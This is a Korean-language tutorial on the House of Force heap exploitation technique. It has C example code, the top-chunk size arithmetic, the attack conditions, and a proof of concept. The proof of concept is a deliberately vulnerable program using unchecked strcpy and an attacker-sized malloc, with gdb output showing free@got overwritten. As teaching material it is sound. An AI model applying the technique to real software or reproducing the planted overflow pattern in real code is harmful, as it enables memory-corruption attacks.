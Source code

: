# **The House_of_Force**

### **Top Chunk**
 
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(int argc,char *argv[]){
	int size;
	char *buf1, *buf2, *buf3;
	
	buf1 = malloc(256);
	buf2 = malloc(256);
	buf3 = malloc(256);

	free(buf3);
	free(buf2);
	free(buf1);
}
```

일반적으로 Heap 영역에 할당되는 0x21000에서 malloc하여 할당된 chunk size를 뺀 값이 Top Chunk의 크기이다. 

```
0x21000 - 0x110(malloc) = 0x20ef0
0x20ef0 - 0x110(malloc) = 0x20de0
0x20de0 - 0x110(malloc) = 0x20cd0
```

Top Chunk는 재사용 가능한 Chunk가 없고, Top Chunk의 크기가 요청 크기보다 작을 경우 Top Chunk에서 나눠서 할당을 해준다.

Top Chunk에 인접한 Chunk가 free되면 병합하는데 fastbin의 경우 병합에서 제외된다.

```
0x20cd0 + 0x110(free) = 0x20de0
0x20de0 + 0x110(free) = 0x20ef0
0x20ef0 + 0x110(free) = 0x21000
```

## **Condition**

* 공격자에 의해 Top Chunk를 덮어쓸 수 있어야 함(0xffffffffffffffff)
* 공격자에 의해 할당되는 Heap 크기를 제어할 수 있어야 함
* 공격자에 의해 할당된 Chunk 영역에 값을 저장할 수 있어야 함

## **Exploit Plan**

1. Heap 영역 생성
1. Top Chunk 변조
1. 계산된 값을 malloc 인자 값으로 전달해 메모리를 할당
    * Target Address - Allocated Chunk Header Size(16 or 8) - Top Chunk Address
1. 다시 malloc 호출
    * 공격자가 원하는 영역이 할당됨

## **Proof of Concept**

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
 
int main(int argc, char *argv[])
{
        char *buf1, *buf2, *buf3;
        if (argc != 4) return;
 
        buf1 = malloc(256);
        strcpy(buf1, argv[1]);
 
        buf2 = malloc(strtoul(argv[2], NULL, 16));
 
        buf3 = malloc(256);
        strcpy(buf3, argv[3]);
 
        free(buf3);
        free(buf2);
        free(buf1);
 
        return 0;
}
```

Overflow를 통해 Top Chunk를 0xffffffffffffffff로 변조한다.

```
gdb-peda$ heapinfo
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x0
(0x90)     fastbin[7]: 0x0
(0xa0)     fastbin[8]: 0x0
(0xb0)     fastbin[9]: 0x0
                  top: 0x602110 (size : 0xfffffffffffffff8) (top is broken ?) 
       last_remainder: 0x0 (size : 0x0) 
            unsortbin: 0x0
```

"free@got(0x601018)" - "Chunk header size(0x10)" - "Top chunk address(0x602118)" - 0x8 = 0xffffeee8  
  * -0x8을 한 이유 -> Heap 영역은 0x*0 단위로 할당하기 때문

argv2에 0xffffeee8을 입력하여 해당 크기만큼 malloc을 해준다.

argv3에 BBBBBBBBCCCCCCCC를 입력하면 free@got가 변조된다.

```
gdb-peda$ x/24gx 0x601018-0x10
0x601008:	0x0000000000000111	0x4242424242424242
0x601018:	0x4343434343434343	0x00007ffff7ab2900
0x601028:	0x00007ffff7a2d740	0x00007ffff7a91130
0x601038:	0x00007ffff7a483f0	0x0000000000000000
```

**References**  
<https://www.lazenca.net/display/TEC/The+House+of+Force>
<https://hackstoryadmin.tistory.com/entry/What-is-heap-part1>